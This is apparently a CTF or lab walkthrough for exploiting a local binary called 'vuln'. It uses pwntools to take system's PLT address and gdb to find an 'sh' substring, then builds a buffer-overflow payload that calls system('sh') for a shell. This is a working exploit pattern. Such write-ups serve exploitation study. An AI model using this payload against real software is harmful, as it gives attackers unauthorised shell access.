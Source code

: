 # Get address of system from plt

```

Because system function is used inside the program, we can get system address from PLT. Add these two lines in exploit script

binary = ELF("./vuln", checksec=False)
system_plt_address = binary.plt.system

```

# Get address of sh string

```
Find address of string which contains sh

gdb vuln
b main
r
info proc map
find 0x8048000,0x8049000,"Check your stash"

Output: 0x8048607

x/s  0x8048607+14 => sh_address = 0x8048607 + 14

```
# Payload

```
payload = offset * b"A" + p32(system_plt_address) + 4 * b"B" + p32(sh_address)

```
